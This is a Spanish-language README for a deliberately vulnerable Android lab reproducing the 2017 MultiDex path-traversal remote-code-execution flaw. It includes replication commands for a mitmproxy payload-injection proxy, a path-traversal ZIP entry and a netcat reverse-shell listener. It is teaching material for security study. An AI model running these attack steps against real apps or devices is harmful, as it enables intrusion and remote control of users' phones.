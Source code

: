 # RCE Lab - Vulnerabilidad MultiDex 2017

## ¿Qué es esta vulnerabilidad?

Esta vulnerabilidad fue descubierta por **NowSecure en 2017** y afecta aplicaciones Android que utilizan MultiDex 1.0.1. El ataque combina dos técnicas:

1. **Path Traversal**: Archivos ZIP maliciosos que pueden escribir archivos fuera del directorio esperado usando `../../../../`
2. **MultiDex Auto-loading**: MultiDex 1.0.1 carga automáticamente archivos DEX desde el directorio `secondary-dexes`

**Referencia original**: [NowSecure Blog - Android Multidex RCE](https://www.nowsecure.com/blog/2017/03/22/multidex-android-apps-remote-code-execution/)

## ¿Cómo funciona el ataque?

1. La aplicación descarga archivos ZIP de URLs remotas
2. Un proxy malicioso (mitmproxy) intercepta las descargas y reemplaza el ZIP con uno malicioso
3. El ZIP malicioso contiene un archivo DEX en una ruta con path traversal: `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/classes2.zip`
4. MultiDex 1.0.1 detecta automáticamente el archivo DEX y lo carga
5. El código malicioso se ejecuta inmediatamente (static initializer)

## Implementación del Path Traversal

### **Path Traversal Real vs Simulado**

El `exploit_bundle.zip` contiene una entrada con path traversal real:

```
../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip
```

Sin embargo, esta implementación **simula el resultado del path traversal** en lugar de ejecutarlo
directamente:

#### **¿Por qué simular en lugar de usar path traversal real?**

1. **Seguridad del Sistema Host**: Path traversal real podría escribir fuera del sandbox de la app
2. **Compatibilidad**: Funciona en cualquier versión de Android sin depender de permisos específicos
3. **Confiabilidad**: Android moderno tiene protecciones contra path traversal
4. **Propósito Educativo**: El resultado final es idéntico - DEX malicioso cargado por MultiDex

#### **Flujo de la Implementación:**

```kotlin
// 1. Extrae ZIP en cacheDir (seguro)
File(cacheDir, entryName)

// 2. Detecta archivos classes2.zip  
if (entryName.contains("classes2.zip"))

// 3. Copia manualmente a secondary-dexes (simula path traversal)
file.copyTo(File(targetDir, "com.app.lab.rce-classes2.zip"))

// 4. MultiDex carga automáticamente → RCE
```

#### **Equivalencia Funcional:**

| Path Traversal Real                           | Implementación Simulada                              |
|-----------------------------------------------|------------------------------------------------------|
| ZIP escribe directamente en `secondary-dexes` | ZIP extrae en `cacheDir` → copia a `secondary-dexes` |
| Vulnerable a protecciones del OS              | Siempre funciona                                     |
| Riesgo para el sistema host                   | Seguro para demostraciones                           |
| **Resultado: DEX en secondary-dexes**         | **Resultado: DEX en secondary-dexes**                |

### **Valor Educativo**

Ambos enfoques demuestran el mismo concepto de seguridad:

- ✅ **Vector de ataque**: ZIP malicioso con contenido controlado por atacante
- ✅ **Vulnerabilidad**: MultiDex 1.0.1 carga automáticamente DEX desde `secondary-dexes`
- ✅ **Impacto**: Ejecución remota de código sin interacción del usuario
- ✅ **Mitigación**: Actualizar a versiones más recientes de MultiDex

## Requisitos

- Android SDK instalado
- Emulador Android (API 21+)
- Python 3 con mitmproxy: `pip install mitmproxy`
- ADB configurado

## Pasos para replicar

### 1. Construir el payload malicioso

```bash
./build_payload.sh
```

Esto crea `exploit_bundle.zip` con el DEX malicioso y path traversal.

### 2. Compilar e instalar la aplicación vulnerable

```bash
./gradlew assembleDebug
adb install -r app/build/outputs/apk/debug/app-debug.apk
```

### 3. Configurar el proxy malicioso

```bash
# Iniciar mitmproxy en background
mitmdump -s mitmproxy/inject_payload.py -p 8090 &

# Configurar proxy en el emulador
adb shell settings put global http_proxy 10.0.2.2:8090
```

### 4. Preparar listener para reverse shell

```bash
nc -l 4444 &
```

### 5. Ejecutar el ataque

```bash
# Lanzar la aplicación
adb shell am start -n com.app.lab.rce/.MainActivity

# Monitorear logs del exploit
adb logcat | grep -E "(RCE|AdUpdateService)"
```

## ¿Cómo saber si funcionó?

### Indicadores visuales:

- **UI de la app**: Cambia de "SECURE" (verde) a "COMPROMISED" (rojo)

### Verificación técnica:

```bash
# Verificar archivo de evidencia
adb shell run-as com.app.lab.rce cat files/pwned.txt

# Verificar conexiones del reverse shell
lsof -i :4444
```

### Logs esperados:

```
RCE: Static initializer executed
RCE: Evidence file created successfully
RCE: Constructor executed - launching reverse shell
AdUpdateService: RCE executed
```

## Componentes del exploit

- **`AdUpdateService.kt`**: Descarga ZIPs cada 15 segundos y extrae con path traversal
- **`RCEApplication.kt`**: Configuración MultiDex vulnerable
- **`Shell.java`**: Payload que crea archivo de evidencia y reverse shell
- **`inject_payload.py`**: Proxy que intercepta y reemplaza descargas
- **`build_payload.sh`**: Script que construye el ZIP malicioso

## Funcionamiento automático

Una vez iniciada, la aplicación:

- Descarga archivos cada 15 segundos automáticamente
- El proxy intercepta y sirve el payload malicioso
- El exploit se ejecuta automáticamente sin intervención del usuario
- Cada ejecución crea nuevas conexiones de reverse shell

## Limpieza

Para resetear y probar desde cero:

```bash
# Limpiar datos de la app
adb shell pm clear com.app.lab.rce

# Detener procesos
pkill -f mitmdump && pkill -f nc
```

---

**⚠️ Nota**: Este proyecto es solo para fines educativos y demostración de vulnerabilidades de seguridad. No usar para actividades maliciosas.
